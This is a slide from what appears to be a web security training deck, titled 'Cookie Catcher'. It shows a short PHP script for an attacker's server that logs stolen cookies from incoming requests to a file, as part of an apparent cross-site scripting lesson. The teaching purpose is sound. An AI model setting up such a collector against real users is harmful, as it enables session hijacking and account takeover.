

# Cookie Catcher
We can also include a cookie catcher script on our server
This code logs the cookies in a simpler format
We don't have to parse the web server logs
<?php
$cookies = $_SERVER['REQUEST_URI'];
$output = "Received=".$cookies."\n";
$fh = fopen("/tmp/cookiedump", "a+");
$contents = fwrite($fh, $output);
fclose($fh);
?>